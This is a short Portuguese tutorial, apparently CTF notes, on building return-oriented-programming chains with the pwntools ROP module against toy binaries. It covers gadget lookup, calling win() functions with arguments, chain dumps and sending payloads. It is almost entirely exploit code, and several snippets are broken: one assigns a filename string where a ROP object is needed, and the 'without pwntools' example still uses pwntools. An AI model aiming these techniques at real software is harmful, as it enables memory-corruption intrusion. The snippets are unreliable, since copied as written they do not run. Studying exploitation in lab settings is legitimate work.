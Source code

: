 # ROP

O modulo `ROP` é poderoso e colabora na criação de ropchains com menos linhas de código.

## Criando um objeto ROP

```python
rop = ROP([])
```

## Adicionando Padding

```python
rop.raw('A' * 64)
```

## Adicionando valores empacotados

```python
rop.raw(0x12345678)
```

## Buscando simples gadgets
```python
rop = ('./vulnerable_program')
# buscando gadget 'pop rdi, ret'
pop_rdi_ret_address = p64(rop.rdi.address)
# buscando gadget 'ret'
ret_address = p64(rop.ret.address)
```

## Chamando a função win\(\)

```python
rop = ('./vulnerable_program')
rop.win()
```

Passando parametros para a função:

```python
rop = ('./vulnerable_program')
rop.win(0xdeadc0de, 0xdeadbeef)
```

## Dumping a chain ROP

```python
from pwn import *

elf = context.binary = ELF('./showcase')
rop = ROP(elf)

rop.win1(0x12345678)
rop.win2(0xdeadbeef, 0xdeadc0de)
rop.flag(0xc0ded00d)

print(rop.dump())
```

`dump()` output:

```text
0x0000:         0x40118b pop rdi; ret
0x0008:       0x12345678 [arg0] rdi = 305419896
0x0010:         0x401102 win1
0x0018:         0x40118b pop rdi; ret
0x0020:       0xdeadbeef [arg0] rdi = 3735928559
0x0028:         0x401189 pop rsi; pop r15; ret
0x0030:       0xdeadc0de [arg1] rsi = 3735929054
0x0038:       'oaaapaaa' <pad r15>
0x0040:         0x40110c win2
0x0048:         0x40118b pop rdi; ret
0x0050:       0xc0ded00d [arg0] rdi = 3235827725
0x0058:         0x401119 flag
```

## Enviando a Chain

```python
p.sendline(rop.chain())
```

## Showcase

Sem pwntools:

```python
payload = flat(
    POP_RDI,
    0xdeadc0de,
    elf.sym['win1'],
    POP_RDI,
    0xdeadbeef,
    POP_RSI,
    0x98765432,
    elf.sym['win2'],
    POP_RDI,
    0x54545454,
    elf.sym['flag']
)

p.sendline(payload)
```

Com pwntools:

```python
rop.win1(0xdeadc0de)
rop.win2(0xdeadbeef, 0x98765432)
rop.flag(0x54545454)

p.sendline(rop.chain())
```

